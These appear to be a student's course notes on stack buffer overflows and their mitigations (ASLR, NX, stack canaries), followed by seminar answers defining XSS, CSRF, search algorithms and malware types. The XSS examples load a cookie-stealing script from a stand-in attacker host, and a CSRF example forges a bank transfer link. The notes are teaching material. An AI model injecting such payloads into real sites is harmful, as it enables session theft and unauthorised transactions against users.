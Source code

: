 # Lecture
## Executable and Linking Format (ELF)

* Collection of headers, segments and sections
* Representation of code and data
* Stored on disk and used to create and start process

## Stack (used for?)

* Lightweight data structure
* Provides functions with static memory (stack frames)
* Not contained within the binary
* Initialized during process startup
* Located at higher end of memory and growing towards lower end
* Maximize space in between

## Stack frame (how can it be used?)

* Contains info about usable memory
* Function's start and end manage each stack-frame
* esp register keeps track of topmost element
* ebp register is used as a reference to point to function arguments and local var
* push instruction to add word-aligned elements
* pop instruction to remove word-aligned elements

## Calling convention (used for?)

- Arg passed via stack
- eip reg passed via stack by CPU
- Function code pushes esp,ebp and other reg
- Results passed back via eax 

## Function call

- khi tạo 1 function thì sẽ add các cái var trong function đó theo stack, theo thứ tự là function->para->return->base  pointer(ebp)->other reg->local var...
- còn trong main sẽ đc fill theo heap

## File execute
![](img/execute_file.png)

- Heap is used for global or extern variable, dynamic variable
- Stack for local variable while calling function

## hack ?

- Attacker controls what is written into buffer
- offset of return with buffer calculatable
- buffer filled with garbage before return
- return points to a callable memory location
- application might crash afterwards
- <img src="img\Function_call.png" style="zoom:67%;" />
- 450 nop-sled (a sequence of [NOP](https://en.wikipedia.org/wiki/NOP_(code)) (no-operation) instructions: is no-operation instruction, the attacker use nop-sled sequence to point to desirable memory address without knowing the exactly address. By pointing to randomly address which contains nop-sled sequence, it will slide through memory space until  desired destination whenever the program [branches](https://en.wikipedia.org/wiki/Branch_instruction) to a [memory address](https://en.wikipedia.org/wiki/Memory_address) anywhere on the slide.)
- 33 byte shellcode: is a injection code to call the bash shell
- 37 junk data
- 4 new return address into nop-sled
-  https://www.youtube.com/watch?v=1S0aBV-Waeo&t=537s (7:40)
- ![](\img\buffer_overflow.png)

![](img\overflow.png)

What is buffer overflow

what is stack-based buffer overflow

what is a return add and when it is used

what is a payload and how it is used

what is nop-sled and how it is used

## Mitigation

- Randomize specific memory sections at runtime
  - Candidates sections are: .text,.data,...
  - Offsets within sections do not change
  - Sections have to opt-in
  - Compilerflags to support it
  - Drawback: Only randomize sections. Offsets within section are maintained. Thus leakage of specific pointers can defeat ASLR
  - 32 bits total add
  - Page alignment:12 bits
  - User space
  - mem partition 1 2 3
  - redunction: stack stored in partition one or 2, so effectively 1 bit to guess
  - ->32 - 12 - 1 = 19 bits to guess
- Non excutable: specific segments can be marked as NX
  - Interrupts triggered if such a sections gets executed - > segmentaion fault
  - cpu has to support it
  - compilerflags to support it
  - Draw: do not protected against return oriented approaches
- Stack canaries
  - Magic values placed on stack before stack var
  - Changes with each process invocation
  - Can be checked when leaving functions to prove stack integrity
  - Compilerflags to support it
  - Draw: can potentially leaked, guessed or brute force
- What to do: 
  - use mitigation
  - safe function
  - bounds checking
  - memory-safe programming lang (rust)
  - utilize code analysis (static, dynamic, fuzzing)
  - use modern cpu extension (intel memory protection extensions, control flow enhancement technology)
  
  
# Seminar
- Task1: Define terms and give example:
  - Stored XSS:
    - A persistent XSS, more damage than reflected, the malicious script is injected directly into vulnerable web app, and the script is execute when ever user visit website
    - Directly inject script to html file: `<script> src=”http://hackersite.com/authstealer.js”> </script>.`
  - Reflected XSS:
    - a non-persistent attacks, attacker embedded  malicious script, when user click on the link it will executed 
    - E.g: Inject java script to html tag like: `<a url=http://forum.com?q=news<\script%20src=”http://hackersite.com/authstealer.js”/>`
  - DOM-based XSS:
    - Client side attack, the attack will send the page content instead of server with the html file is injected with malicious code 
    - E.g: attacker can inject an addition box in to these form 
		<img src="https://1.bp.blogspot.com/-8Dn99Siwl-U/VA5r4Csc4sI/AAAAAAAADNQ/0yQHSR3ayFI/s1600/dombased-xss-1.png">
		
		By change message=Please fill in the form to `message=<label>Gender</label><div class="col-sm-4"><select class = "form-control" onchange="java_script_:show()"><option value="Male">Male</option><option value="Female">Female</option></select></div><script>function show(){alert();}</script>`
		<img src="https://1.bp.blogspot.com/-AbZldTkY3Hs/VA5r4AQ7xrI/AAAAAAAADNM/PfO4f5HafSg/s1600/dombased-xss-3.png">
  - CSRF:
    - Using authenticated session cookie of user to establish unwanted operation forge the normal user
    - E.g: a attacker's website implement `<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>` to take advantage of if the user already login to bank.com and the cookie still store the authentication token
- Task 2: define term:
  - Evolutionary algorithm:
  
	The mechanisms that mimic the biological evolution with reproduction, mutation and recombination factor to find the stronger solution and eliminate the weakest solution
  - Local search:
  
	The algorithm is to search from solution space by moving around to find the optimal cost or time bound is elapsed
  - Vertex cover:
  
	Is the set of vertex that can cover all the edge, which mean every edge can be one of directly edge of the node in vertex cover. The minimum vertex cover is the minimum vertex cover that we can create
- Task 3: define term:
  - Companion Virus:
  
	Is a companion virus is a computer virus that stores itself in file named similar to other program but with different extension. When user execute the program, it will run before the true program, hence the user is not recognized 
  - Rootkit:
  
	Is the malware that design to give a root access while actively hiding its presence
  - Back door:
  
	Refer to any method that anybody can able to get around a normal security measure and gain the root access to the system
